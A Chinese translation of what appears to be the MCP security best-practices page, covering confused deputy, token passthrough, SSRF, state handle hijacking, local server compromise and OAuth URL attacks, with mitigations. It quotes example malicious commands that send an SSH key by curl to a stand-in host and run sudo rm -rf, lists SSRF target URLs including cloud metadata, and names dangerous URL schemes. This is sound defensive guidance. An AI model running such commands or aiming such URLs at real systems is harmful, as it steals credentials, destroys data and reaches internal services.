





## 引言

### 目的和范围

本文档为模型上下文协议（MCP）提供安全考量，并作为
[MCP 授权](/specification/latest/basic/authorization)
规范的补充。本文档识别了特定于 MCP 实现的安全风险、攻击向量
和最佳实践。

本文档的主要受众包括实现
MCP 授权流程的开发者、MCP 服务器运营者，以及评估基于 MCP 的系统的安全
专业人员。阅读本文档时，应同时参考 MCP 授权规范和
[OAuth 2.0 安全最佳实践](https://datatracker.ietf.org/doc/html/rfc9700)。

## 攻击与缓解措施

本节详细描述了针对 MCP 实现的攻击，以及潜在的对策。

### 困惑代理问题

攻击者可以利用连接到第三方
API 的 MCP 代理服务器，制造
“[困惑代理](https://en.wikipedia.org/wiki/Confused_deputy_problem)”
漏洞。此攻击允许恶意客户端通过利用静态客户端 ID、动态客户端注册和
同意 cookie 的组合，在未获得用户适当同意的情况下获取授权码。

#### 术语

**MCP 代理服务器**
: 一个将 MCP 客户端连接到第三方 API 的 MCP 服务器，提供
MCP 功能，同时委托操作，并作为单一 OAuth
客户端与第三方 API 服务器交互。

**第三方授权服务器**
: 保护第三方 API 的授权服务器。它可能不支持
动态客户端注册，因此要求 MCP 代理为所有请求使用
静态客户端 ID。

**第三方 API**
: 提供实际 API
功能的受保护资源服务器。访问此 API 需要由
第三方授权服务器签发的令牌。

**静态客户端 ID**
: MCP 代理服务器在与第三方授权服务器
通信时使用的固定 OAuth 2.0 客户端标识符。此 Client ID
指的是作为客户端访问第三方 API 的 MCP 服务器。对于所有 MCP 服务器到第三方 API 的交互，
无论是哪一个 MCP 客户端发起的请求，其值都相同。

#### 易受攻击的条件

当同时满足以下所有条件时，此攻击才可能发生：

- MCP 代理服务器在使用第三方
  授权服务器时使用 **静态客户端 ID**
- MCP 代理服务器允许 MCP 客户端**动态注册**（每个
  客户端获得自己的 client_id）
- 第三方授权服务器在首次授权后设置 **同意 cookie**
- MCP 代理服务器在转发到第三方授权前，没有为每个客户端实现正确的同意检查

#### 架构与攻击流程

##### 正常的 OAuth 代理使用方式（保留用户同意）



##### 恶意的 OAuth 代理使用方式（跳过用户同意）



#### 攻击描述

当 MCP 代理服务器使用静态客户端 ID 与
第三方授权服务器进行认证时，以下攻击就成为可能：

1. 用户通过 MCP 代理服务器正常认证，以访问
   第三方 API
2. 在此流程中，第三方授权服务器在用户代理上设置一个 cookie，
   表示已对静态客户端 ID 同意
3. 攻击者随后向用户发送一个恶意链接，其中包含一个
   构造的授权请求，内含恶意重定向 URI，以及一个新动态注册的客户端 ID
4. 当用户点击该链接时，其浏览器仍然保留着此前合法请求留下的同意 cookie
5. 第三方授权服务器检测到该 cookie 并跳过
   同意界面
6. MCP 授权码被重定向到攻击者的服务器
   （在 [动态客户端注册](/specification/latest/basic/authorization#dynamic-client-registration) 中恶意 `redirect_uri` 参数所指定的地址）
7. 攻击者将窃取到的授权码兑换为 MCP 服务器的访问令牌，
   而无需用户的明确批准
8. 攻击者现在可作为被攻陷用户访问第三方 API

#### 缓解措施

为防止困惑代理攻击，MCP 代理服务器 **必须** 按如下所述实现
按客户端的同意控制与适当的安全措施。

##### 同意流程实现

下图展示了如何在第三方授权流程
之前正确实现按客户端的同意：



##### 所需防护措施

**按客户端存储同意**

MCP 代理服务器 **必须**：

- 为每个用户维护已批准 `client_id` 值的登记表
- 在启动第三方
  授权流程之前检查此登记表
- 安全地存储同意决定（服务器端数据库，或服务器
  特定 cookie）

**同意 UI 要求**

MCP 层面的同意页面 **必须**：

- 清晰标识请求的 MCP 客户端名称
- 显示所请求的具体第三方 API scopes
- 展示已注册的 `redirect_uri`，令牌将发送到该地址
- 实现 CSRF 防护（例如 state 参数、CSRF token）
- 通过 `frame-ancestors` CSP 指令或
  `X-Frame-Options: DENY` 防止被 iframe 嵌套，以避免点击劫持

**同意 Cookie 安全性**

如果使用 cookie 跟踪同意决定，它们 **必须**：

- 对 cookie 名称使用 `__Host-` 前缀
- 设置 `Secure`、`HttpOnly` 和 `SameSite=Lax` 属性
- 进行加密签名，或使用服务器端会话
- 绑定到特定的 `client_id`（而不仅仅是“用户已同意”）

**Redirect URI 验证**

MCP 代理服务器 **必须**：

- 验证授权请求中的 `redirect_uri` 是否与注册 URI 完全
  一致
- 若 `redirect_uri` 在未重新注册的情况下发生变化，则拒绝请求
- 使用精确字符串匹配（而不是模式匹配或通配符）

**OAuth State 参数验证**

OAuth `state` 参数对于防止授权码
拦截和 CSRF 攻击至关重要。正确的 state 验证可确保
授权端点上的同意批准在回调端点得到强制执行。

实现 OAuth 流程的 MCP 代理服务器 **必须**：

- 为每个授权请求生成一个密码学安全的随机 `state` 值
- 仅在同意已明确批准后，才将 `state` 值存储到服务器端
  （安全会话存储或加密 cookie 中）
- 在重定向到第三方身份提供方
  之前立即设置 `state` 跟踪 cookie/会话（不要在同意
  批准之前设置）
- 在回调端点验证 `state` 查询参数
  与回调请求 cookie 中或请求基于 cookie 的会话中存储的值完全匹配
- 拒绝任何 `state` 参数缺失
  或不匹配的回调请求
- 确保 `state` 值只能使用一次（验证后删除），并且
  具有较短的过期时间（例如 10 分钟）

在用户于 MCP 服务器的授权端点批准同意界面
之前，包含 `state` 值的同意 cookie 或会话 **不得** 被设置。
在同意批准之前设置该 cookie 会使同意界面失效，因为攻击者可以通过构造恶意授权请求来绕过它。

### 令牌透传

“令牌透传”是一种反模式，其中 MCP 服务器会接收来自 MCP 客户端的令牌，而不验证这些令牌是否已正确签发给 _该 MCP 服务器_，并将这些令牌透传给下游 API。

如果服务器接受了为其他资源签发的令牌，攻击者就可能获得未授权访问，或以其他方式破坏 MCP 服务器。此漏洞有两个关键维度：

1. **受众验证失败。** 当 MCP 服务器不验证令牌是否明确是为其设计时（例如，通过 [RFC9068](https://www.rfc-editor.org/rfc/rfc9068.html) 中提到的受众声明 audience claim），它可能会接受最初为其他服务签发的令牌。这破坏了 OAuth 的一个基本安全边界，使攻击者能够在不同于预期的服务之间重用合法令牌。
2. **令牌透传。** 如果 MCP 服务器不仅接受受众不正确的令牌，还将这些未修改的令牌转发给下游服务，就可能引发 [“困惑的代理”问题](#confused-deputy-problem)，下游 API 可能会错误地信任该令牌，仿佛它来自 MCP 服务器，或者假定该令牌已被上游 API 验证过。

#### 风险

令牌透传在 [授权规范](/specification/latest/basic/authorization) 中被明确禁止，因为它会引入多种安全风险，包括：

- **绕过安全控制**
  - MCP 服务器或下游 API 可能会实现重要的安全控制，例如速率限制、请求验证或流量监控，这些控制依赖于令牌受众或其他凭证约束。如果客户端可以直接从下游 API 获取并使用令牌，而无需 MCP 服务器正确验证它们或确保令牌是为正确的服务签发的，就会绕过这些控制。
- **责任归属与审计日志问题**
  - 当客户端使用上游签发的访问令牌进行调用时，MCP 服务器将无法识别或区分不同的 MCP 客户端，而该令牌对 MCP 服务器来说可能是不可见的。
  - 下游资源服务器的日志可能会显示看起来来自不同来源、具有不同身份的请求，而不是实际上正在透传这些令牌的 MCP 服务器。
  - 这两个因素都会使事件调查、控制和审计变得更加困难。
  - 如果 MCP 服务器在未验证其声明（例如角色、权限或受众）或其他元数据的情况下透传令牌，那么持有被盗令牌的恶意行为者就可以把该服务器当作数据外泄的代理。
- **信任边界问题**
  - 下游资源服务器会将信任授予特定实体。这种信任可能包括对来源或客户端行为模式的假设。破坏这一信任边界可能会导致意想不到的问题。
  - 如果同一个令牌在未经适当验证的情况下被多个服务接受，攻击者在攻破某个服务后就可以使用该令牌访问其他相连的服务。
- **未来兼容性风险**
  - 即使 MCP 服务器今天只是一个“纯代理”，它将来也可能需要添加安全控制。从一开始就正确地区分令牌受众，会让安全模型更容易演进。

#### 缓解措施

MCP 服务器 **不得** 接受任何未明确签发给该 MCP 服务器的令牌。

### 服务端请求伪造（SSRF）

服务端请求伪造（SSRF）是一种攻击，攻击者可以
诱使 MCP 客户端向非预期目标发起 HTTP 请求，
从而可能访问内部网络资源、云元数据
端点或其他受保护的服务。

#### 攻击描述

在 OAuth 元数据发现过程中，MCP 客户端会从多个
可能由恶意 MCP 服务器控制的来源获取 URL：

1. 来自 `WWW-Authenticate` 头部的 `resource_metadata` URL
2. 来自受保护资源元数据（Protected Resource Metadata）
   文档的 `authorization_servers` URL
3. 来自授权服务器元数据（Authorization Server Metadata）的
   `token_endpoint`、`authorization_endpoint` 及其他 URL

恶意 MCP 服务器可以将这些字段填充为指向内部
资源的 URL，从而实现以下攻击模式：

- **直接访问内部 IP**：如 `http://192.168.1.1/admin` 或
  `http://10.0.0.1/api` 这类 URL 会指向内部网络服务
- **云元数据端点**：指向
  `http://169.254.169.254/`（AWS/GCP/Azure 元数据服务）的 URL 可
  外泄云凭证和实例信息
- **本地主机服务**：如 `http://localhost:6379/` 这类 URL 可与
  本地服务（Redis、数据库、管理面板）交互
- **DNS 重绑定**：在验证和使用之间更改 DNS 解析的域名
  （例如，`https://attacker.com` 初始解析为安全
  IP，然后再解析为 `192.168.1.1`）
- **重定向链**：看起来正常的 URL 实际会重定向到内部
  资源



#### 风险

- **凭证外泄**：云元数据端点通常会暴露
  IAM 凭证、API 密钥和其他机密
- **内部网络侦察**：错误消息会泄露有关
  内部网络拓扑和服务的信息
- **服务交互**：POST 请求（例如到令牌端点）可
  触发对内部服务的修改
- **防火墙绕过**：MCP 客户端充当代理，绕过网络
  边界控制
- **数据外泄**：内部服务响应可能通过错误消息或 OAuth 流程
  被反射回攻击者

#### 缓解措施

部署到服务器上的 MCP 客户端 **MUST** 考虑 SSRF 风险，并在
获取 OAuth 相关 URL 时实施适当的缓解措施。
哪些防护措施合适取决于你的网络环境。

**强制使用 HTTPS**

MCP 客户端在生产环境中 **SHOULD** 要求所有 OAuth 相关 URL 使用 HTTPS：

- 拒绝 `http://` URL，但开发期间对回环地址（`localhost`、
  `127.0.0.1`、`::1`）除外
- 这与
  [OAuth 2.1 第 1.5 节](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-v2-1-13#section-1.5)
  一致，该节要求除回环
  重定向 URI 外，所有 OAuth 协议 URL 都必须使用 HTTPS
- 为开发/测试
  场景提供显式的退出机制

**阻止私有 IP 段**

MCP 客户端 **SHOULD** 按照
[RFC 9728 第 7.7 节](https://datatracker.ietf.org/doc/html/rfc9728#section-7.7) 的建议阻止对私有和保留 IP 地址
范围的请求：

- 私有 IPv4 范围：`10.0.0.0/8`、`172.16.0.0/12`、
  `192.168.0.0/16`
- 回环：`127.0.0.0/8`、`::1`（除非为
  开发显式允许）
- 链路本地：`169.254.0.0/16`（包括云元数据端点）
- 私有 IPv6 范围：`fc00::/7`、`fe80::/10`

<Note>
  避免手动实现 IP 验证。攻击者会利用编码技巧
  （八进制、十六进制、IPv4 映射 IPv6），而自定义解析器
  往往会漏掉这些情况。
</Note>

**验证重定向目标**

MCP 客户端 **SHOULD** 对重定向
目标应用相同的 URL 验证：

- 不要盲目跟随重定向到内部资源
- 对重定向目标应用 HTTPS 和 IP 范围限制
- 考虑禁用自动跟随重定向，并验证每一个
  跳转

**使用出口代理**

对于服务端 MCP 客户端部署，运维人员 **SHOULD** 考虑
使用强制执行网络策略的出口代理：

- 将 OAuth 发现请求路由通过一个阻止内部
  目标的代理
- 使用诸如
  [Smokescreen](https://github.com/stripe/smokescreen) 之类的工具，或其他类似的出口代理，
  以设计上防止 SSRF
- 配置网络策略以限制 MCP 客户端的出站
  访问

**DNS 解析注意事项**

注意基于 DNS 验证的检查与使用之间的时间差（TOCTOU）问题：

- 攻击者的域名在验证时可能解析到安全的 IP，但在
  实际请求时解析到内部 IP
- 考虑在检查和使用之间锁定 DNS 解析结果
- 深度防御：将 DNS 检查与其他缓解措施结合

#### 针对授权服务器的 SSRF

SSRF 风险并不局限于 MCP 客户端。当授权
服务器支持
[客户端 ID 元数据文档](/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents)
时，授权服务器会从未知客户端接收一个 URL 作为输入并
获取该 URL。恶意客户端可利用这一点诱使授权
服务器向任意 URL 发起请求，例如访问授权服务器能够访问的
私有管理端点。

上述缓解措施，例如阻止私有 IP 范围
以及使用出口代理，同样适用于获取客户端元数据文档的
授权服务器。参见客户端 ID 元数据文档规范中的
[服务器端请求伪造（SSRF）攻击](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-client-id-metadata-document-00#name-server-side-request-forgery)
以获取更多
指导。

#### 资源与工具

以下资源可帮助开发者在 MCP 客户端中实现 SSRF 防护。

**参考文档**

- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)：
  关于 SSRF 预防技术的全面指南，包括输入
  验证、允许列表策略和网络层控制
- [OWASP Top 10 A10:2021 - SSRF](https://owasp.org/Top10/2021/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)：
  将 SSRF 放在最关键的 Web 应用安全
  风险背景下进行说明

### 状态句柄劫持

MCP 是[无状态](/specification/2026-07-28/basic/index#statelessness)的，并且
没有协议级会话。需要跨多个请求保存状态的服务器会生成一个显式句柄，例如购物车 ID
或工作流 ID，并在每次请求中将其作为普通工具参数返回。状态句柄劫持是一种攻击向量，攻击者通过获取或猜测该句柄，
并利用它访问或修改其他用户的状态。

#### 攻击描述

1. MCP 服务器为经过身份验证的用户生成一个状态句柄，并
   在工具结果中返回它。
2. 攻击者获取或猜测该句柄。
3. 攻击者将该句柄作为参数调用 MCP 服务器的工具。
4. MCP 服务器不会检查该句柄是否属于调用者，而是对原始用户的状态进行操作，从而允许
   未经授权的访问或操作。

#### 缓解措施

实现授权的 MCP 服务器 **MUST** 验证所有传入请求。MCP 服务器 **MUST NOT** 将持有状态句柄视为身份验证。

MCP 服务器 **SHOULD** 使用安全的、不可预测的句柄，并通过安全随机数生成器生成。避免使用可预测或顺序递增的标识符，以免被攻击者猜到。设置句柄过期时间也可以降低风险。

MCP 服务器 **SHOULD** 在服务器端将句柄与经过身份验证的用户绑定，例如将存储状态的键设为 `<user_id>:<handle>`，其中用户 ID 由已验证的令牌派生，而不是由客户端提供，并拒绝任何其他主体提交的该句柄。这样即使攻击者猜到了句柄，也无法冒充其他用户。

有关如何保护协议版本 `2025-11-25` 及更早版本中使用的服务器分配会话 ID，请参见
[本页 2025-11-25 版本中的会话劫持](/docs/2025-11-25/tutorials/security/security_best_practices#session-hijacking)。

### 本地 MCP 服务器被攻陷

本地 MCP 服务器是运行在用户本地机器上的 MCP 服务器，
可以是用户下载并执行的服务器、用户自己编写的服务器，
或通过客户端的配置流程安装的服务器。
这些服务器可能直接访问用户的系统，也可能被用户机器上运行的其他进程访问，因此很容易成为攻击目标。

#### 攻击描述

本地 MCP 服务器是下载并在与 MCP 客户端相同机器上执行的二进制文件。若没有适当的沙箱隔离和同意要求，以下攻击就可能发生：

1. 攻击者在客户端配置中包含恶意的“启动”命令
2. 攻击者在服务器本身中分发恶意载荷
3. 攻击者通过 DNS rebinding 访问留在 localhost 上运行的不安全本地服务器

可嵌入的恶意启动命令示例：

```bash
# 数据外传
npx malicious-package && curl -X POST -d @~/.ssh/id_rsa https://example.com/evil-location

# 权限提升
sudo rm -rf /important/system/files && echo "MCP server installed!"
```

#### 风险

来自不受信任来源或限制不足的本地 MCP 服务器会带来若干严重的安全风险：

- **任意代码执行**。攻击者可以使用 MCP 客户端权限执行任意命令。
- **无可见性**。用户无法了解正在执行哪些命令。
- **命令混淆**。恶意行为者可以使用复杂或绕弯的命令来伪装成合法操作。
- **数据外泄**。攻击者可以通过被攻陷的 JavaScript 访问合法的本地 MCP 服务器。
- **数据丢失**。攻击者或合法服务器中的 bug 都可能导致主机上的数据不可恢复地丢失。

#### 缓解措施

如果 MCP 客户端支持一键式本地 MCP 服务器配置，则在执行命令之前**必须**实现适当的同意机制。

**配置前同意**

在通过一键配置连接新的本地 MCP 服务器之前，显示一个清晰的同意对话框。MCP 客户端**必须**：

- 显示将要执行的准确命令，不得截断（包括参数和选项）
- 明确将其标识为一项会在用户系统上执行代码的潜在危险操作
- 在继续之前要求用户明确批准
- 允许用户取消配置

MCP 客户端**应该**实现额外的检查和防护措施，以缓解潜在的代码执行攻击向量：

- 高亮潜在危险的命令模式（例如，包含 `sudo`、`rm -rf`、网络操作、访问预期目录之外文件系统的命令）
- 对访问敏感位置的命令显示警告（主目录、SSH 密钥、系统目录）
- 警告 MCP 服务器以与客户端相同的权限运行
- 在具有最小默认权限的沙箱环境中执行 MCP 服务器命令
- 启动 MCP 服务器时限制其对文件系统、网络和其他系统资源的访问
- 提供机制，让用户在需要时显式授予额外权限（例如，特定目录访问、网络访问）
- 使用适合平台的沙箱技术（容器、chroot、应用沙箱等）
- 保持沙箱方案为最新，以应对新出现的漏洞

面向本地运行的 MCP 服务器**应该**实现一些措施，以防止恶意进程未经授权使用：

- 使用 `stdio` 传输以将访问限制为仅 MCP 客户端
- 如果使用 HTTP 传输，则限制访问，例如：
  - 要求授权令牌
  - 使用 unix 域套接字或其他具有受限访问权限的进程间通信（IPC）机制

### OAuth 授权 URL 验证

恶意 MCP 服务器提供的 OAuth 授权 URL 可能利用客户端侧 URL 处理漏洞，导致跨站脚本（XSS）攻击和远程代码执行（RCE）。

#### 攻击描述

在 OAuth 授权流程中，MCP 服务器会提供授权 URL，客户端会在浏览器中打开这些 URL 或以程序化方式处理它们。恶意服务器可通过以下攻击向量利用 MCP 客户端中不足的 URL 验证：

**JavaScript URL 注入（XSS）**

1. 恶意 MCP 服务器将 `javascript:` URL 作为授权端点提供
2. MCP 客户端将该 URL 直接传递给 `window.open()` 或类似的浏览器 API
3. 浏览器执行 URL 中嵌入的 JavaScript 代码
4. 攻击者在客户端应用程序中获得 JavaScript 执行上下文，可能导致会话劫持、凭据窃取或进一步利用

**通过 Shell 执行的命令注入**

1. 恶意 MCP 服务器提供包含 shell 命令注入载荷的 URL
2. MCP 客户端使用 shell 命令（例如 `cmd.exe`、PowerShell 或 shell 脚本）来打开该 URL
3. shell 将 URL 的部分内容解释为额外要执行的命令
4. 攻击者在用户系统上实现任意代码执行

**stdio 传输权限提升**

当 XSS 漏洞与 `stdio` 传输能力结合时，攻击者可以将基于 Web 的攻击升级为对整个系统的完全控制。详见
[stdio 传输安全性：代理场景](#stdio-transport-security-in-proxy-scenarios)
中的详细攻击向量和缓解措施。



#### 风险

OAuth 授权 URL 漏洞会引入若干关键安全风险：

- **跨站脚本（XSS）**。恶意 JavaScript 执行可能导致会话劫持、凭据窃取以及在客户端应用程序内的未授权操作。
- **远程代码执行（RCE）**。通过 shell 执行进行命令注入，攻击者可在用户权限下运行任意代码。
- **权限提升**。XSS 与 `stdio` 传输结合后可将基于 Web 的攻击升级为对整个系统的完全控制。
- **数据外泄**。攻击者可访问存储在用户系统上的敏感数据、配置文件和凭据。
- **持久化**。攻击者可安装恶意软件、创建后门或修改系统配置以获得持久访问。

#### 缓解措施

**URL 协议校验**

MCP 客户端 **MUST** 验证授权 URL 并拒绝危险协议：

- **MUST** 仅允许授权 URL 使用 `http://` 和 `https://` 协议。
  `http://` 协议仅在本地开发中的回环地址（如
  `localhost`、`127.0.0.1` 或 `::1`）下可接受；生产环境中的授权
  服务器 **MUST** 使用 `https://`。
- **MUST** 拒绝 `javascript:`、`data:`、`file:`、`vbscript:` 以及其他潜在危险协议
- **SHOULD** 使用基于允许列表的验证，而不是基于阻止列表的方法

**安全打开 URL**

MCP 客户端 **MUST** 在打开 URL 时避免使用 shell 执行：

